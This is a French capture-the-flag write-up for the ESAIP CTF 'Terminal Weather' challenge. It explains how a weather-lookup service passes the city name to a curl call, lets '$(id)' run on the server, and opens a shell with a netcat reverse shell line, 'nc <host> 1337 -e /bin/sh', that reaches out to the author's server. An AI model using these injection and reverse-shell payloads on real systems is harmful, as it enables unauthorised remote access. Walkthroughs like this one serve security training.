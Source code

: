 ```yaml
---
title: "[ESAIP CTF] - Terminal Weather (479)"
date: 2022-06-04
categories: ['pwn']
draft: false
---
```

---

---
### Author : `Rxphgui` 
---

Nous allons aujourd'hui voir le dernier challenge en pwn de l'ESAIP CTF.
Nous n'avions pas de binaire simplement un remote.

Lorsque nous nous connections nous avions cela :

```bash
[raphgui@ret2arch:Téléchargements/pwn][1]$ nc terminal-weather.esaip-cyber.com 55555               (06-05 17:00)
Welcome to the Terminal Weather Service

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice:
```

## Introduction

Ce challenge est celui qui m'a prit le plus de temps (2 heures). Pourtant le principe est simple, on va y venir.
Nous avons donc un menu avec des options tels que :

```
- Change city
- Get weather
```

Nous pouvons donc enlever les éventuelles technique de heap traditionnelles (Uaf & Double Free).

Nous allons alors tester le changement de ville pour voir ce qu'il se passe : 

```bash
----- Change city -----
Enter the new city name: MILF
New city: MILF

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice:
```
Nous allons tester d'avoir le temps de cette ville :

```bash
----- Weather -----
MILF: ⛅️ (Partly cloudy) +31°C 🌒 1012hPa


----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice:
```

## Exploitation 

On comprends donc qu'il faudrait passer comme nom de ville notre payload. Au bout de plusieurs essaie, je teste ça :

```bash
----- Change city -----
Enter the new city name: /bin/sh
New city: /bin/sh

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice: 2

----- Weather -----
<a href="/bin/sh?format=%l:+%c(%C)+%t+%m+%P\n">Moved Permanently</a>.
```

Nous avons réussi à avoir une erreur. C'est à ce moment là que j'ai perdu énormement de temps.
Je pensais pouvoir refermer la balise et ensuite injecter une commande.
Et j'ai passé plus d'une heure sur ça.

Ensuite j'arrive à avoir une erreur qui me donne un compte Twitter :

```bash
Follow @igor_chubin for wttr.in updates
```

En checkant son twitter, il s'agit du créateur de l'API pour le temps. Pour intéragir avec son API, nous devons faire un :

```
curl wttr.in/<la ville>
```

On comprend donc à ce moment là que c'est le cas avec notre programme.

## GET A SHELL

J'ai essayé les commandes injections telles que  :

```
ls; | ls# ...
```

Certain caractère étaient filtrés.

Puis j'ai trouvé cela :

```bash
----- Change city -----
Enter the new city name: $(id)
New city: $(id)

----- MENU -----
 1. Change city
 2. Get weather
 3. Exit

Choice: 2

----- Weather -----
>>>    _  _    ___  _  _        
>>>   | || |  / _ \| || |         
>>>   | || |_| | | | || |_         
>>>   |__   _| |_| |__   _|         
>>>      |_|  \___/   |_|       
>>>                          
>>>   404 UNKNOWN LOCATION: uid=1000(challenge)   
>>>                    
----
```

Nous avons donc réussi à injecter une comande qui a été exécuté par le serveur. 
J'ai donc fais un `ls` pour voir ce qu'on avait :

```bash
entrypoint.sh
```

Lancer des commandes par le nom de la ville, est assez long. Il nous faut un shell.

## GET A SHELL

Pour cette dernière partie, nous allons donc tenter d'obtenir un reverse shell.

```bash
----- Change city -----
Enter the new city name: $(nc 141.95.159.112 1337 -e /bin/sh)
New city: $(nc 141.X.X.X 1337 -e /bin/sh)
```

Nous avons alors une connection sur le VPS :

```
rxph@vps-d9a65da8:~$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 20.74.23.147 2048 
id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
ls -lah
total 20K    
drwxr-x---    1 root     challeng    4.0K Jun  3 17:18 .
drwxr-xr-x    1 root     root        4.0K Jun  5 10:48 ..
-rwxr-x---    1 root     challeng      31 Jun  3 17:15 .flag.txt
-rw-r-x---    1 root     challeng     117 Jun  3 17:18 entrypoint.sh
-rwxr-x---    1 root     challeng    1.2K Jun  3 17:15 weather.py
cat .flag.txt
ECTF{N0_W347h3r_f0r_b4d_b0yyy5}
```

Ce challenge était super cool, j'ai pu passé une bonne partie de ce challenge à chercher avec [hashp4](https://milfctf.com/about/#hashp4).

